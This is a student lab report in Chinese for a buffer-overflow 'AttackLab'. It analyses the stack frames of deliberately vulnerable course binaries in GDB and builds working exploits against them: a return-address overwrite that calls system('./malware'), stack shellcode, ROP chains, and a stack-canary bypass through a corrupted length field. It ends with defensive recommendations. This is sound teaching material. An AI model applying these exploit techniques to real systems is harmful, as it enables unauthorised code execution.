




# Lab3: AttackLab 实验报告

**实验环境**：Ubuntu 24.04.5 LTS（x86-64），GNU GDB 15.1 + GEF 2026.01，Python 3.12.3

## 1. 观察 `input` 栈帧

在 `attack/` 目录启动 `gdb ./dark-calc`，依次执行:

```text
gef➤  break input
gef➤  run
gef➤  bt
gef➤  info registers rip rsp rbp
gef➤  x/6gx $rbp-0x10
gef➤  disas main
gef➤  disas input
```

下面两张截图是上述命令在 GEF 中的实际输出（GDB 15.1 + GEF 2026.01，提示符为 `gef➤`；GEF 会在断点处自动打印寄存器、栈、代码、线程等上下文）:





**Q1: `input` 是谁调用的？**

`bt` 显示：

```text
#0  0x000000000040197b in input ()
#1  0x0000000000401ad1 in main ()
```

`input` 由 `main` 调用；`disas main` 显示调用点是 `0x401acc` 的 `call input`，返回地址为 `main+14`（0x401ad1）。`main` 自身由 `__wrap_main` 调用（其栈帧中保存的返回地址为 0x401c1f）。

**Q2: 前三条指令？`$rbp` 指向的值来自？**

```text
0x401977 <+0>:  push %rbp        # 保存调用者的 rbp
0x401978 <+1>:  mov  %rsp,%rbp   # 建立本函数帧指针
0x40197b <+4>:  sub  $0x10,%rsp  # 为 expression[16] 分配 16 字节
```

断点停在 `sub` 之前，此时 `$rbp = 0x721000800fe0`，`[rbp] = 0x721000800ff0`，正是 `main` 的 `rbp`。它来自 `input` 第一条 `push %rbp`：`call input` 先把返回地址压到 0x721000800fe8，`push %rbp` 再把 `main` 的 `rbp`（0x721000800ff0）压到 0x721000800fe0，随后 `mov %rsp,%rbp` 令 `rbp = 0x721000800fe0`。

**Q3: `$rbp + 8` 处是什么？**

`[$rbp+8] = 0x401ad1`，即 `main+14`，是 `call input`（0x401acc）压入的返回地址；`input` 执行 `ret` 后会回到 `0x401ad1` 继续执行 `mov $0x0,%eax; call eval`。

**Q4: 哪条汇编把值写进 `$rbp + 8`？**

在 `main+9`（0x401acc）下断点，用 `si` 逐条执行: 

```text
进入 call 前： rip=0x401acc  rsp=0x721000800ff0
执行 call 后： rip=0x401977  rsp=0x721000800fe8  [rsp]=0x0000000000401ad1
执行 push %rbp 后：rsp=0x721000800fe0  [rsp]=0x0000721000800ff0
执行 mov %rsp,%rbp 后：rbp=0x721000800fe0
执行 sub $0x10,%rsp 后：rsp=0x721000800fd0（expression 的地址）
```

则: 写入该值的是地址 **0x401acc 的 `call input`**（机器码 `e8 a6 fe ff ff`）。它先把返回地址压栈，`input` 的 `push %rbp` 又使栈指针减 8，于是该值恰好位于 `$rbp+8`。

**Q5: `call`、prologue、`leave`、`ret` 的作用**

从 `input` 的 `leave` 前逐条执行:

```text
leave 前： rip=0x4019d5  rsp=0x721000800fd0  rbp=0x721000800fe0
执行 leave 后： rip=0x4019d6  rsp=0x721000800fe8  rbp=0x721000800ff0
执行 ret 后： rip=0x401ad1 (main+14)  rsp=0x721000800ff0
```

- `call`：把返回地址压栈并跳转到被调用函数，决定“函数执行完回到哪里”。
- prologue（`push %rbp; mov %rsp,%rbp; sub $0x10,%rsp`）：保存调用者 `rbp`，建立本帧基准，并为局部变量 `expression` 分配 16 字节空间。
- `leave`：等价于 `mov %rbp,%rsp; pop %rbp`，丢弃本帧局部变量区并恢复调用者的 `rbp`。
- `ret`：从栈顶弹出返回地址送入 `rip`，控制流回到调用者。

`expression` 与返回地址之间只隔 8 字节保存的 `rbp`，因此 `gets()` 写入超过 16 字节即可改写返回地址——这就是下面攻击的基础。

## 2. 不同长度输入测试

`input()` 中 `char expression[MAXLEN+1]`，`MAXLEN=15`，数组仅 16 字节；`gets()` 会一直写到换行/EOF，并额外写入一个 `\0`（`+1` 就是给 `\0` 留的位置）。

下为分别输入 20 和 32 个 `A` 的实际运行结果: 



（16 个 A 的 \0 已写到保存 rbp 的第 1 个字节，但返回地址完好；20 个 A 覆盖 rbp 低 5 字节，仍不崩溃；32 个 A 时 rbp 和返回地址全被覆盖。）

在 `gets` 调用之后（0x40199f）下断点观察 32 字节输入: 

```text
rbp=0x721000800fe0  rsp=0x721000800fd0
0x721000800fd0: 0x4141414141414141  0x4141414141414141   <- expression[16]
0x721000800fe0: 0x4141414141414141  0x4141414141414141   <- 保存的 rbp / 返回地址
```

继续运行后 `leave` 弹出被破坏的 `rbp`，`ret` 取到 `0x4141414141414141`，跳转到非法地址触发 SIGSEGV。20 字节输入时 `[rbp]` 只变成 `0x0000720041414141`，返回地址 `0x401ad1` 完好，所以能正常返回。

结论: 超出缓冲区的数据沿高地址方向依次覆盖保存的 `rbp`、返回地址及调用者栈帧，因此可以直接劫持控制流。

## 3. 任务一：利用溢出执行 `./malware`

`input()` 的栈帧：`expression` 在 `rbp-0x10`（16 字节），保存的 `rbp` 在 `rbp`，返回地址在 `rbp+8`，故偏移 `0x10+0x8 = 24` 字节。`input()` 在 `gets` 之后、`ret` 之前会执行 `strcpy(command_buf, expression)`，且 `eval()` 内部有现成的:

```text
0x401a6b: mov  edi, 0x6030d0    # edi = command_buf
0x401a70: call system@plt       # system(command_buf)
```

因此 payload 前 10 字节放 `"./malware\0"`，`strcpy` 只把 `"./malware"` 复制进 `command_buf`（`\0` 之后的填充和返回地址不会进入）；再用 14 个 `A` 填到 24 字节，最后把返回地址改成 `0x401a6b`。程序返回时跳进 `eval` 的 `system` 调用，由 `dark-calc` 自己执行 `./malware`，`malware` 沿父进程链找到 `dark-calc` 并打印成功信息。

`payload.py` 共 32 字节：`"./malware\0"` + 14 个 `A` + `p64(0x401a6b)`。运行结果:

```text
### The bomb was triggered by the dark-calc process. ###
### You have successfully detonated the bomb! Congratulations! ###
```

## 4. 用 GDB 检查 `main` 机器码

**Q1: 前三行汇编对应的机器码**

```text
0x401ac3 <+0>: 55                push %rbp
0x401ac4 <+1>: 48 89 e5          mov  %rsp,%rbp
0x401ac7 <+4>: b8 00 00 00 00    mov  $0x0,%eax
```

**Q2: 机器码在内存中的排列**

`x/24bx 0x401ac3` 显示：

```text
0x401ac3: 55 48 89 e5 b8 00 00 00 00 e8 a6 fe ff ff ...
```

三条指令各自的内存区间：

| 区间 | 字节 | 指令 |
| --- | --- | --- |
| `0x401ac3` | `55` | `push %rbp`（1 字节） |
| `0x401ac4 – 0x401ac6` | `48 89 e5` | `mov %rsp,%rbp`（3 字节） |
| `0x401ac7 – 0x401acb` | `b8 00 00 00 00` | `mov $0x0,%eax`（5 字节；`b8` 后跟 32 位立即数，小端存放） |
| `0x401acc – 0x401ad0` | `e8 a6 fe ff ff` | `call input`（5 字节；`e8` 后跟 32 位相对偏移） |

从 `main` 入口逐条 `si`，`rip` 依次为 `0x401ac3 → 0x401ac4 → 0x401ac7 → 0x401acc`，说明指令在代码段中按字节连续存放，CPU 从 `rip` 开始按当前指令长度取指。

## 5. 任务二：栈空间执行

`readelf` 显示 `dark-calc` 的 `GNU_STACK` 为 `RW`（不可执行），但它在 `.init_array` 里注册了 `init_fixed_stack()`:

1. `mmap(0x721000000000, 0x802000, PROT_READ|PROT_WRITE|PROT_EXEC, MAP_PRIVATE|MAP_ANONYMOUS|MAP_FIXED_NOREPLACE, -1, 0)`；
2. 用 `mprotect` 把首尾各一页设为 `PROT_NONE` 作为防护页；
3. 全局变量 `fixed_stack_top = 0x721000801000`。

`__wrap_main` 在调用 `main` 前把 `rsp` 设为该值，因此 `expression` 的地址固定为 **0x721000800fd0**，且这块栈可读可写可执行——这是题目“故意营造的假象”。

攻击思路：把 shellcode 直接写在缓冲区里，并让返回地址指回缓冲区:

```text
bf 04 00 00 00                  mov  edi,4
48 b8 87 1a 40 00 00 00 00 00   movabs rax,0x401a87   # grade_eval
ff d0                           call rax
0f 0b                           ud2
```

由于栈（0x721000800fd0）与代码段（0x401a87）相距约 125 TB，超出 `call rel32` 的 ±2 GB 范围，必须用 `movabs` 装入 64 位绝对地址再 `call *%rax`。payload 共 32 字节：19 字节 shellcode + 5 字节 `0x90` 填充 + `p64(0x721000800fd0)`。`grade_eval(4)` 打印:

```text
 Hope A will be your grade!
```

随后 `ud2` 使程序收到 SIGILL 终止，不影响已经 `fflush` 的输出。

## 6. ROP

`dark-calc-nx` 使用普通栈（`GNU_STACK RW`，不可执行）、ASLR 生效，但仍是**非 PIE**，代码段地址固定，因此可以用代码段里的 gadget 拼出调用链。

`input` 的帧结构与前面相同，返回地址在 payload 偏移 24。题面提示 gadget 在 `0x4019d0–0x401ae3`，用 `objdump` 和 `x/4bx` 在 `__libc_csu_init` 末尾找到:

```text
0x401a33: 5f c3        pop %rdi ; ret
0x401a34: c3           ret
```
gadget 不要求是完整函数指令，任意以 c3（ret）结尾的字节序列都能用；0x401a33 是从 pop %r15; ret（41 5f c3）中间取出来的。

链的目标是 `grade_eval(4)`（0x401978）:

| payload 偏移 | 值 | 作用 |
| --- | --- | --- |
| 0–23 | `A` × 24 | 填满缓冲区与保存的 `rbp` |
| 24 | `0x401a34` | `ret`（对齐用） |
| 32 | `0x401a33` | `pop %rdi; ret` |
| 40 | `4` | 弹入 `rdi` |
| 48 | `0x401978` | `grade_eval` |
| 56 | `0x4016e0` | `exit@plt`，干净退出 |

多放一个 `ret` 是为了满足 System V ABI: `call` 之后进入函数时要求 `rsp % 16 == 8`；`input` 的 `ret` 之后 `rsp` 是 16 的倍数，若直接 `pop %rdi; ret` 进 `grade_eval` 则 `rsp % 16 == 0`，部分 glibc 的 `printf` 会因 `movaps` 对齐要求崩溃。本 payload 共 64 字节，运行后输出:

```text
 Hope A will be your grade!
```

## 7. Canary

`dark-log` 开启了 Stack Protector。`struct log_frame` 的布局与实测偏移:

| 偏移（相对 `rbp`） | 成员 |
| --- | --- |
| `rbp-0x120` | `char expression[128]`（`gets` 目标） |
| `rbp-0x0a0` | `char logMsg[128]`（`memcpy` 目标） |
| `rbp-0x020` | `int len` |
| `rbp-0x008` | Canary |
| `rbp` | 保存的 `rbp` |
| `rbp+0x008` | 返回地址 |

直接写到返回地址会先破坏 Canary。关键在函数内的 `memcpy(&logMsg + f.len, f.expression, 128)`: `len` 位于 Canary 之前的偏移 256–259，而 `gets` 只需写到 `len` 就停手（第 260 字节的 `\0` 落在 pad 里），Canary（偏移 280）不受影响。

把 `len` 改成 `0xa8 = 168`，则 `memcpy` 目标为:

```text
&logMsg + 168 = (rbp-0xa0) + 0xa8 = rbp + 8
```

于是 `expression[0..127]` 被复制到返回地址及其上方，其中前 8 字节就是新的返回地址，后面是 ROP 链；Canary 保持原值，校验通过。GDB 实测 Canary 前后保持不变（下图为本次运行中的 `0xcdec57b0eb1dda00`），返回地址由 `0x401811` 变为 `0x4018a4`。



payload 结构：`expression[128]`（ROP 链 + `B` 填充）+ `logMsg[128]`（`C`）+ `p32(0xa8)`，共 260 字节。链为 `ret(0x4018a4) → pop %rdi; ret(0x4018a3) → 4 → grade_eval(0x401677)`，运行后输出:

```text
 Hope A will be your grade!
```

**思考：如何重排局部变量才能防住这种攻击？**

应把标量/长度/指针等控制数据放在所有字符数组的低地址一侧，把 `expression`、`logMsg` 这类缓冲区放在紧邻 Canary 的高地址一侧。这样 `gets` 的越界写会先和 Canary 相遇，攻击者无法在只改 `len` 的情况下不破坏 Canary；`memcpy` 的偏移也就无法用来越过 Canary 写返回地址。此外还应校验 `len` 范围、把 `memcpy` 长度固定为 `sizeof(logMsg)`，并用 `fgets` 取代 `gets`。
